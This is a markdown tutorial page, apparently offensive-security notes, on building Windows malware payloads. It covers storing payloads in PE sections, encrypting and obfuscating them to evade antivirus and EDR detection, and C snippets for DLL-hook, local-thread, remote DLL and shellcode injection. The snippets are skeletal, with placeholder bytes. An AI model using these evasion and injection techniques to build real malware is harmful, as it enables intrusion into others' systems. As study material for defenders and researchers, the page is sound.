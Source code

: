 ```yaml
---
title: Malware payloads
---
```


- [1. Placement](#1-placement)
  - [1.1. .data section](#11-data-section)
  - [1.2. .rdata section](#12-rdata-section)
  - [1.3. .text section](#13-text-section)
  - [1.4. .rsrc section](#14-rsrc-section)
- [2. Encryption](#2-encryption)
- [3. Obfuscation](#3-obfuscation)
- [4. Execution](#4-execution)
  - [4.1. External DLL](#41-external-dll)
  - [4.2. Local thread](#42-local-thread)
  - [4.3. Process DLL injection](#43-process-dll-injection)
  - [4.4. Process shellcode injection](#44-process-shellcode-injection)

## 1. Placement
Malware payload can be stored in one of the following PE sections:

- `.data`
- `.rdata`
- `.text`
- `.rsrc`

> **NOTE**: The compiler might decide to store global variables and constants in `.text` section anyway. There is no 100% sure method to determine where the data will be finally stored.

### 1.1. .data section
To store payload in `.data` section initialize global variable. This section is readable and writable.

```c
unsigned char RawPayload[] = { 0xde, 0xad, 0xbe, 0xef }

int main() { /* ... */ }
```

### 1.2. .rdata section
To store payload in `.rdata` section initialize global constant. This section in read-only.

```c
const unsigned char RawPayload[] = { 0xde, 0xad, 0xbe, 0xef }

int main() { /* ... */ }
```

### 1.3. .text section
To store data in `.text` section, one must explicitly instruct the compiler to do this. This section is executable. It's good for small payloads.

```c
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char RawPayload[] = {
    0xde, 0xad, 0xbe, 0xef
}

int main() { /* ... */ }
```

### 1.4. .rsrc section
Visual Studio has an option to embed binary resources (icons, etc.) into PE `.rsrc` section. This section is read-only. The payload cannot be accessed directly at runtime. Instead, several WinAPI functions (especially from `libloaderapi.h`) must be used to access it.

## 2. Encryption
Encryption of the payload can help evade signature-based detection. It is **always necessary** against modern security solutions. Raw payloads are very well detected. It may not be effective against runtime and heuristic analysis.

> **NOTE**: The more encrypted data is embedded in the malicious file, the higher its entropy is. It might be suspicious for security solutions. Entropy should be as normal as possible.

- XOR - the easiest and the stealthiest method. It doesn't require to use any external modules. The same function can be used to encryption and decryption. This encryption is very easy to spot and reversed by an analyst. Some security solutions are able to even brute-force weak encryption keys.
- RC4 - efficient bidirectional encryption algorithm. Its implementation is pretty short and can be easily embedded in the source code of malware. Even NTAPI has some efficient and small implementations of the algorithm (`SystemFunction032` and `SystemFunction033` exported from `advapi32.dll`).
- AES - advanced, secure and pretty complicated encryption algorithm. It operates on blocks of data which are 16-bytes long. It usually requires usage of some external library which can be already signatured by security vendors or produces a lot of WinAPI calls.

## 3. Obfuscation
When it comes to payload obfuscation, the sky is the limit. You can rotate bytes, take every second byte, reverse string, split it across multiple variables and so on. There are, however, some real-life examples of very interesting obfuscation techniques that can help not only evade security solution but even slow down the process of manual analysis. Additionally, obfuscation usually doesn't increase an entropy of the file which might be important. Obfuscation techniques usually try to hide the payload in a form of a bunch of innocent data.

- IPFuscation - 1 byte = 1 octet in a IP address. Or every byte in a seperate address.
- MACFuscation - same with MAC addresses.
- UUIDFuscation - same with UUID.
- GeoFuscation - same with geo coordinates.

> **NOTE**: Both, encryption and obfuscation, are intended to evade signature-based detection.

## 4. Execution

### 4.1. External DLL
A payload can be stored and fired in an external DLL file. There are four different DLL events that can be observed. Look at the following snippet:

```c
#include <Windows.h>
#include <stdio.h>

VOID RunPayload() { /* ... malicious code ... */}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason){
        // Four different events to be observed
        case DLL_PROCESS_ATTACH: {
            RunPayload();
            break;
        };
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;
}
```

`LoadLibrary` WinAPI function is used to load a DLL into the current process memory. During that process the `DLL_PROCESS_ATTACH` event is executed. There might be a hidden piece of malicious code.

### 4.2. Local thread

> **NOTE**: This technique is not stealthy in a confrontation with EDRs and more advanced security solutions!

Steps to perform a local thread shellcode execution:

```c
// 1. Allocate memory
PVOID shellcode_mem = VirtualAlloc(
  NULL,
  shellcode_size,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_READWRITE // Using PAGE_EXECUTE_READWRITE is an indicator of malware
);

// 2. Deobfuscate shellcode to the allocated memory

// 3. Modify memory protection to execute it
VirtualProtect(
  shellcode_mem,
  shellcode_size,
  PAGE_EXECUTE_READWRITE,
  NULL
);

// 4. Create a new thread
HANDLE thread = CreateThread(NULL, NULL, shellcode_mem, NULL, NULL, NULL);

// 5. Wait for the thread
WaitForSingleObject(thread, INFINITE);
```

### 4.3. Process DLL injection

```c

// 1. Get the target process handle
HANDLE proc = FakeGetProcessFunc();

// 2. Get the address of the function that is used to load DLL
PVOID pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");

// 3. Allocate memory for a DLL path string in the remote process 
PVOID dll_path_addr = VirtualAllocEx(
  proc,
  NULL,
  dll_path_size,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_READWRITE
);

// 4. Write DLL path string to the allocated memory in the remote process
WriteProcessMemory(proc, dll_path_addr, dll_path, dll_path_size, &bytes);

/* 5. Create a new thread in the remote process.
      The new thread is actually the LoadLibraryW function executed with the DLL path param. Malicious code must be included in the DLL on-load action.
*/
HANDLE hThread = CreateRemoteThread(proc, NULL, NULL, pLoadLibraryW, dll_path_addr, NULL, NULL);
```

### 4.4. Process shellcode injection

```c
// 1. Get the target process handle
HANDLE proc = FakeGetProcessFunc();

// 2. Allocate memory for a shellcode in the remote process 
LPVOID shellcode_addr = VirtualAllocEx(
  proc,
  NULL,
  shellcode_size,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_READWRITE
);

// 3. Write the shellcode to the allocated memory in the remote process
WriteProcessMemory(proc, shellcode_addr, shellcode, shellcode_size, &bytes);

// 4. Zero local shellcode memory
memset(shellcode, 0x00, shellcode_size);

// 5. Mark shellcode memory as executable
VirtualProtectEx(proc, shellcode_addr, shellcode_size, PAGE_EXECUTE_READWRITE, &old);

// 6. Create a new thread in the remote process and execute the shellcode
CreateRemoteThread(proc, NULL, NULL, shellcode_addr, NULL, NULL, NULL);
```
